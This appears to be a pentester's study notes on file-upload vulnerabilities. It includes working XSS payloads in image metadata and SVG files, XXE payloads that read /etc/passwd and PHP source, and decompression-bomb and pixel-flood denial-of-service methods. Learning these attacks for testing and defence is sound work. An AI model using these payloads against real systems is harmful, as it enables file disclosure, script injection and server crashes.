 # FILE UPLOAD

## Stored XSS :
- web application allows us to upload HTML files. Although HTML files won't allow us to execute code (e.g., PHP), it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines.
- Web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters, as follows:
  
    ```bash
    $ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
    $ exiftool HTB.jpg
    ...SNIP...
    Comment                         :  "><img src=1 onerror=alert(window.origin)>
    ```
    
    the Comment parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack.
  
- If we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
  
- XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload.
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert(window.origin);</script>
    </svg>
    ```
    Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.

## XEE:

- With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
  Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source.

- To use XXE to read source code in PHP web applications
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
  Once the SVG image is displayed, we should get the base64 encoded content of index.php, which we can decode to read the source code.

- Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others. All of these documents include XML data within them to specify their format and structure. Suppose a web application used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, we may also modify their XML data to include the malicious XXE elements, and we would be able to carry a blind XXE attack on the back-end web server.
- Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions. For more about SSRF, you may refer to the Server-side Attacks module.

## DoS
- **Decompression Bomb** : If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.
- **Pixel Flood** : We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.
- If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. ../../../etc/passwd), which may also cause the server to crash. 

